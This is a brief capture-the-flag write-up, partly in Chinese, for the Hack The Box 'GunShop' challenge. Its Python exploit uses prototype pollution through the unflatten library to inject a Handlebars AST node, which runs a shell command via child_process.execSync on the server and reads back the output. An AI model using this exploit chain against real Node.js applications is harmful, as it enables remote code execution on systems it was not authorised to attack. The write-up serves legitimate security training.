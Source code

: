 ## [GunShop][https://app.hackthebox.com/challenges/245]

**unflatten seems outdated and a bit vulnerable to prototype pollution
we sure hope so that po6ix doesn't pwn our puny app with his AST injection on template engines**
根据[[../Method/AST注入|AST注入]]漏洞构造exp：
```python
import requests

TARGET_URL = 'http://localhost:1337'
TARGET_URL = 'http://docker.hackthebox.eu:30448'

# make pollution
r = requests.post(TARGET_URL+'/api/submit', json = {
    "artist.name":"Gingell",
    "__proto__.type": "Program",
    "__proto__.body": [{
        "type": "MustacheStatement",
        "path": 0,
        "params": [{
            "type": "NumberLiteral",
            "value": "process.mainModule.require('child_process').execSync(`ls > /app/static/out`)"
        }],
        "loc": {
            "start": 0,
            "end": 0
        }
    }]
    })

print(r.status_code)
print(r.text)

print(requests.get(TARGET_URL+'/static/out').text)

```
执行并在相应目录下找到flag文件
